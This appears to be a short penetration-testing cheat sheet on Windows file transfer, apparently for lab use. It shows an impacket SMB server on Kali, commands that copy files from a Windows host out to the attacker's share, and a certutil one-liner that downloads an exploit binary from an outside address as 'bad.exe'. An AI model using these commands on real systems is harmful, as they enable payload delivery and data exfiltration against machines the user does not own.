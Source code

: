 # Windows file transfer  

## smb  

Start a smb server on kali using impacket suite.  

`sudo smbserver.py -username kurdt -password purplerain purple ~/rockstar`  

On windows, password is purplerain.  

`net use \\10.10.14.69\purple /u:\kurdt purplerain`  

To transfer files from kali to windows current directory.  

`cp \\10.10.14.69\purple\test.txt .`  

To transfer files from windows to kali.  

`cp groups-result.txt \\10.10.14.69\purple`  

## certutil  

`certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe`
